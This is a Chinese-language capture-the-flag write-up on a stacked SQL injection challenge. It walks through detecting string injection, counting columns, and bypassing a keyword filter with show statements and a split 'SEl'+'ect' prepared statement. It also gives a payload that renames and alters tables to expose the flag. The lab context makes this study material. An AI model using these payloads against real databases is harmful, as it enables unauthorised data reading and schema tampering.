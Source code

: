 Author: Coder-LYQ
Date: 2020-12-22

## flag



## 思路

1. 对于这类直观的SQL注入题目，可以直接输入几组数据进行测试。输入1，会正常显示查询结果。

   接下来就判断是字符型注入还是数字型注入。

   一般数字型注入：

   ​	`select * from *** where id=num`

   - 2-1  --》 正常显示输入1时的结果
   - 1 and 1=1和1 and 1=2 两次结果不同

   字符型注入：

      `select * from *** where id ='num'`

   - 1' and '1'='1  和1' and '1'='2 结果不同
   - 1' and '1'='1' --+ 和 1' and '1'='2' --+ 结果不同

<img src="../images/image-20201222212022041.png" alt="image-20201222212022041" style="zoom:33%;" />

2. 本题输入1' and '1'='1，显示结果和直接输入1一致。

   <img src="../images/image-20201222213617141.png" alt="image-20201222213617141" style="zoom:33%;" />

   再输入1' and '1'='2，无任何结果显示。说明存在sql字符型注入。

   <img src="../images/image-20201222213724343.png" alt="image-20201222213724343" style="zoom:33%;" />

   3. 确定字符型注入之后，判断列数 1' order by 1/2/3--+

      order by 3时页面显示不正常，说明只存在两列。

      另一种判断列数方法，1' union select 1,2,3(....) --+

   4. 尝试union select语句时，页面直接显示：

      <img src="../images/image-20201222215509025.png" alt="image-20201222215509025" style="zoom:33%;" />

      说明waf将select、update、delete、drop、insert和where等关键字过滤。

   5. 考虑堆叠注入，利用;闭合前面语句的执行，再加上需要执行的语句，且以上常见的关键字都被过滤掉了--》可以使用`show databases/tables/columns from table`来获取数据库、数据表和列名。

   6. 获取数据库相关信息   

      `1';show databases;--+`

      获取当前数据库中的表信息

      `1';show tables;--+`

      <img src="../images/image-20201222220208159.png" alt="image-20201222220208159" style="zoom:33%;" />

      获取表中的列信息

      `1';show columns from words;--+`

      <img src="../images/image-20201222220640461.png" alt="image-20201222220640461" style="zoom:33%;" />

      `1';show columns from 1919810931114514;--+` (当数据表名为数字时，需要使用``括起来)
      
      <img src="../images/image-20201222220806395.png" alt="image-20201222220806395" style="zoom:33%;" />
      
   7. 可以从两个的列信息中看出，words中主要是id和data两列，有可能在输入框中输入数字时，后端读取的就是该表中的内容；另一个表中有flag列，说明flag可能存在于该表中。
   
   8. 因此，要想获取flag，则有两种思路：
   
      1. 直接从flag列中读取
      2. 将表1919810931114514添加一列id，并改名成flag（让前端传数据到后端后，后端实际操作的是该表，就可以直接将表中的数据读出来）
   
   9. 难点1：直接从flag表中读数据--》select被过滤
   
      `1';SEt @a=concat("SEl","ect flag from 1919810931114514");PRepare hello from @a;execute hello;#`
   
   10. 难点2：“换个名”（考察对sql操作熟练程度）
   
       `1’;rename table words to new_word;rename table 1919810931114514 to new_19198;alter table new_19198 add id int unsigned not Null auto_increment primary key; alert table new_19198 change flag data varchar(100);#`

## 总结

